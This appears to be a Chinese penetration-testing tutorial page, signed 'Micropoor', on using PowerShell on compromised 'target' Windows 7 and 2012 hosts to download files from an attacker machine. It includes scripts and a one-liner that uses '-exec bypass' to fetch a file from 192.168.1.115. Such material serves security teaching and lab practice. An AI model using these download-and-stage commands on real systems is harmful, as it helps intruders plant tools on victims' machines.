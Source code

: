 自 Windows7 以后内置了 powershell，如Windows 7 中内置了 PowerShell2.0, Windows 8 中内置了 PowerShell3.0。

**靶机：windows 7** 
powershell $PSVersionTable  
![](media/07fa8437a844c082c950d5643c994ef1.jpg)

### down.ps1:
基于System.Net.WebClient  
![](media/c539c15cfe12c5ae4c5846e6b5a485b3.jpg)

![](media/8772baf3212d72078525abfa44923db1.jpg)

### 附：
```powershell
$Urls = @()
$Urls += "http://192.168.1.115/robots.txt"
$OutPath = "E:\PDF\" 
ForEach ( $item in $Urls) {
$file = $OutPath + ($item).split('/')[-1]
(New-Object System.Net.WebClient).DownloadFile($item, $file) 
}
```

**靶机：windows 2012**
powershell $PSVersionTable  
![](media/eaa0bd3c317ef0ae922676a353c59f15.jpg)

### down.ps1:
在 powershell 3.0以后，提供 wget 功能，既 Invoke-WebRequest  
![](media/218c38bbb622f9c8a2634cc1c1a713c3.jpg)

`C:\inetpub>powershell C:\inetpub\down.ps1`  
注：需要绝对路径。

![](media/e6557dac203ad4ac9cc208f135f56307.jpg)  

![](media/69ef693d770cee3f0a5bd9dfdee62f0a.jpg)

### 附：
```powershell
$url = "http://192.168.1.115/robots.txt"
$output = "C:\inetpub\robots.txt"
$start_time = Get-Date
Invoke-WebRequest -Uri $url -OutFile $output
Write-Output "Time : $((Get-Date).Subtract($start_time).Seconds) second(s)"
```

**当然也可以一句话执行下载：**

```bash
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://192.168.1.115/robots.txt','E:\robots.txt')
```

![](media/d40cd11aaad0632c0941441a31e3286f.jpg)

>   Micropoor
